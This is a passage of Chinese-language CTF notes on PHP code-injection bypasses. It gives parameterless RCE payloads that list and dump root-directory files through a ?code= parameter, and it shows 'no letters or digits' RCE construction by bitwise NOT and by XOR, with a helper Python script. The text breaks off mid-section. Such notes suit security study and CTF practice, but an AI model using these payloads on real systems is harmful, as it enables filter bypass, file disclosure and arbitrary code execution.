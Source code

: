读根目录

ord() 函数和 chr() 函数：只能对第一个字符进行转码，ord() 编码，chr)解码，有概率会解码出斜杠读取根目录

```
?code=print_r(scandir(chr(ord(strrev(crypt(serialize(array())))))));
```

要用chdir()固定，payload

```
 ?code=show_source(array_rand(array_flip(scandir(dirname(chdir(chr(ord(strrev(crypt(serialize(array() )))))))))));
```

通过bp的intruder模块来读到根目录

UA头Safari后面的数字要1-10000爆破

## 无数字字母rce

### 取反

```php
&lt;?php
$a = urlencode(~&#39;phpinfo&#39;);
echo $a;
echo &#39;&lt;/br&gt;&#39;;
$b = ~urlencode($a);
echo $b;
```

### 异或

```python
valid = &#34;1234567890!@$%^*(){}[];\&#39;\&#34;,.&lt;&gt;/?-=_`~ &#34;

answer = str(input(&#34;请输入进行异或构造的字符串：&#34;))

tmp1, tmp2 = &#39;&#39;, &#39;&#39;
for c in answer:
  for i in valid:
    for j in valid:
      if (ord(i) ^ ord(j) == ord(c)):
        tmp1 &#43;= i
        tmp2 &#43;= j
        break
    else:
      continue
    break
print(&#34;tmp1为:&#34;,tmp1)
print(&#34;tmp2为:&#34;,tmp2)
```

利用例子：
